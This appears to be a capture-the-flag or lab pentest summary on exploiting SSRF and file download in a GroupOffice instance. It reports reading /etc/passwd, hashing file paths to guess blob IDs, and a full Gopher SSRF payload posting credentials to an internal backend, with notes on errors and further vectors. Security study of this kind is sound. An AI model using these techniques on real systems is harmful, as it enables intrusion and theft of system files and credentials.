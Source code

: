 ## SSRF & File Enumeration Summary – GroupOffice Pentest

### 🔍 Objective
Exploit SSRF vulnerability in the "Preview Link" or file download mechanism to access internal services and retrieve sensitive files like `/tmp/flag.txt`.

---

### ✅ Successful Actions

- Discovered an endpoint:
  ```
  GET /api/download.php?blob=<hash>&inline=1
  ```
- Used blob ID:
  ```
  9d314cd09bc8f735df8ee4533d2a5d8a659428f1
  ```
  to download `/etc/passwd`, confirming SSRF/LFI access to backend file system.

- The server returned a full `/etc/passwd` listing:
  - Apache 2.4.51 on Debian
  - Response code: `HTTP/1.1 200 OK`
  - Content-Disposition: `inline`
  - Content-Type: `application/octet-stream`

---

### 📁 Goal
Access `/tmp/flag.txt` via same blob mechanism.

---

### 🧪 Exploitation Techniques

- **Blob guessing** via hashing:
  ```bash
  echo -n "/tmp/flag.txt" | sha1sum
  # OR
  echo -n "/tmp/flag.txt" | sha256sum
  ```
  → Use result in `blob=` parameter:
  ```
  /api/download.php?blob=<hash>&inline=1
  ```

- **Alternative access** via SSRF:
  - Attempted Gopher SSRF POST to `/login`
  - Final payload (double URL-encoded) pointed to internal service on `backend:80`
  - Correct format:
    ```
    gopher://backend:80/_POST /login HTTP/1.0
    Content-Type: application/x-www-form-urlencoded
    Content-Length: 38

    username=white.rabbit&password=dontbelate
    ```
  - Common issues encountered:
    - 403 Forbidden: likely due to incorrect Host header or permissions
    - 405 Method Not Allowed: incorrect method used (e.g., GET instead of POST)
    - “An exception occurred”: indicates malformed Gopher encoding or target misconfiguration

---

### 🧠 Notes

- Server uses ETag headers for caching; blob may map to file path or content hash.
- No blob listing endpoint discovered, so guessing or LFI/SSRF required.
- SSRF used with `utility=curl` or Gopher to enumerate services.
- Headers returned confirm Apache 2.4 on Debian, may help with guessing paths.

---

### 📌 TODO

- Confirm correct blob hash for `/tmp/flag.txt`
- Explore additional SSRF vectors for direct file access (e.g., file:// or Gopher)
- Investigate internal hostnames (e.g., `backend`, `groupoffice`, `localhost`)
